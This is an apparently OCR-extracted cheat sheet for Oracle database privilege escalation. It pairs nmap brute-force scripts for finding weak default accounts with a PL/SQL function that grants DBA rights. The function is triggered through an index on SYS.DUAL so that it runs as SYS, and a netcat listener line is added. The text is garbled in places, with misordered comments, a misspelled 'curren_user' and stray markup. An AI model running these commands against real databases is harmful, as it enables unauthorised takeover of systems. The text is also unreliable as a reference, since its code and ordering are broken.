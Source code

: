 # Create the function
# Create an index on table SYS.DUAL
# The index we just created executes our function SCOTT.DBA_X
# The function will be executed by SYS user (as that’s the user that owns the table).
# Create an account with DBA priveleges
# In the example below the user SCOTT is used but this should be possible with another default Oracle account.

# Identify default accounts within oracle db using NMAP NSE scripts:
nmap --script=oracle-sid-brute 
nmap --script=oracle-brute 
# Login using the identified weak account (assuming you find one).


# How to identify the current privilege level for an oracle user:
SQL> select * from session_privs; 

SQL> CREATE OR REPLACE FUNCTION GETDBA(FOO varchar) return varchar deterministic authid 
curren_user is 
pragma autonomous_transaction; 
begin 
execute immediate 'grant dba to user1 identified by pass1';
commit;
return 'FOO';
end;


# Oracle priv esc and obtain DBA access:
# Run netcat: netcat -nvlp 443code>
SQL> create index exploit_1337 on SYS.DUAL(SCOTT.GETDBA('BAR'));

# Run the exploit with a select query:
SQL> Select * from session_privs; 
